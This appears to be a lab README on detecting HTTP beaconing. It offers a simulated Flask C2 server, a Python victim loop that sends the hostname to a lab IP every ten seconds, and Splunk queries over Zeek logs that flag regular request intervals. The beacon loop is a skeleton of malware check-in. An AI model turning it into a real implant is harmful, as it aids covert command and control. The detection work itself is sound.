


# HTTP Beaconing

`HTTP Beaconing` is a Command and Control (C2) technique used to exfiltrate data from a target system after it has been infected (generally through malware). Instead of sending all data at once, it uses "beacons" or small chunks to send data, known as "phoning home," at specific intervals.

## Tools Used for Detection
- `Zeek`


## Attack Simulation
Creating a server on port 8080 for the malicious python scirpt in the victim to contact to to simulate the http beconing behaviour
### Step 1: Create a Server on the Attacker Machine

**Python Script** (AI-Generated)

```python

from flask import Flask, request, jsonify
import time

app = Flask(__name__)

@app.route("/checkin", methods=["GET"])
def checkin():
    client = request.args.get("id", "unknown")
    print(f"[+] Check-in from {client}")
    return jsonify({"status": "ok", "sleep": 10})

@app.route("/heartbeat", methods=["GET"])
def heartbeat():
    return "alive", 200

@app.route("/task", methods=["GET"])
def task():
    # No real commands — just simulation
    return jsonify({"cmd": "none"})

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)

```


### Step 2: Automate Beaconing from the Victim

Use a Python script to automate the process of sending requests to the C2 server from the infected machine.

**Python Script** (Hand-Written)

```python
import requests
import time
import socket

# Attackers IP or where the C2 server is running (In my lab on kali)
C2_SERVER = "http://10.10.10.1:8080"
HEADERS = {
    "User-Agent": "python-requests/2.28"
}
HOSTNAME = socket.gethostname()

while True:
    try:
        requests.get(
            f"{C2_SERVER}/checkin?id={HOSTNAME}",
            headers=HEADERS,
            timeout=5
        )
        requests.get(
            f"{C2_SERVER}/heartbeat",
            headers=HEADERS,
            timeout=5
        )
        requests.get(
            f"{C2_SERVER}/task",
            headers=HEADERS,
            timeout=5
        )
    except Exception as e:
        print(e)
    time.sleep(10) # fixed interval

```

## Detection

Detection is typically performed by analyzing `Zeek`'s HTTP logs. Since malware communication is often automated, it follows a predictable pattern of requests with fixed intervals (though advanced attackers may use "jitter" to randomize these intervals).

### Detection Points
- **Interval**: Time elapsed between the previous and current request.
- **Jitter**: The difference between the maximum and minimum intervals.
- **Request Count**: Total number of requests over a period.
- **Unique URIs**: A small number of distinct URLs being accessed repeatedly.
- **Standard deviation**: Describes how much the data spreads in the data set. Lowest and highest value
- **coefficient of variance**: Describes how much standard deviation is compared to the mean


### Tools: Zeek, Suricata, Splunk


### Splunk SPL Queries

**1. Detection based on URI and Fast Beaconing**
This query analyzes requests where the URI remains consistent, looking for regular intervals typical of automated beacons.

```splunk
index="zeek" sourcetype="bro:http:json" latest=-1h
| sort 0 id.orig_h id.resp_h _time
| streamstats current=f last(_time) as prev_time by id.orig_h id.resp_h uri
| eval interval = _time - prev_time
| where interval > 0
| stats count avg(interval) as avg_interval stdev(interval) as stand_dev min(interval) as min_interval max(interval) as max_interval by id.orig_h id.resp_h  uri
| eval coff_variance = stand_dev/avg_interval
| where count > 20 AND coff_variance < 0.3
```



**2. Detection based solely on IP (Fast Beaconing)**
This query focuses on communication between IP pairs regardless of the URI, identifying high-frequency beaconing.

```splunk
index="zeek" sourcetype="bro:http:json" latest=-1h
| sort 0 id.orig_h id.resp_h _time
| streamstats current=f last(_time) as prev_time by id.orig_h id.resp_h uri
| eval interval = _time - prev_time
| where interval > 0
| stats count avg(interval) as avg_interval stdev(interval) as stand_dev min(interval) as min_interval max(interval) as max_interval by id.orig_h id.resp_h  
| eval coff_variance = stand_dev/avg_interval
| where count > 20 AND coff_variance < 0.3
```

**3. Detection based solely on IP (24-Hour Window)**
Similar to the above, but analyzes a longer timeframe (last 24 hours) to catch slower or persistent beaconing.

```splunk
index="zeek" sourcetype="bro:http:json" latest=-1d
| sort 0 id.orig_h id.resp_h _time
| streamstats current=f last(_time) as prev_time by id.orig_h id.resp_h uri
| eval interval = _time - prev_time
| where interval > 0
| stats count avg(interval) as avg_interval stdev(interval) as stand_dev min(interval) as min_interval max(interval) as max_interval by id.orig_h id.resp_h 
| eval coff_variance = stand_dev/avg_interval
| where count > 20 AND coff_variance < 0.3
```
**Suricata Rule**
Suricata isn't really reliable to detect http beconing although we can write rule for it but it can potentailly generate a lot of false positives and there isn't really a fixed signature with http beconing to track with.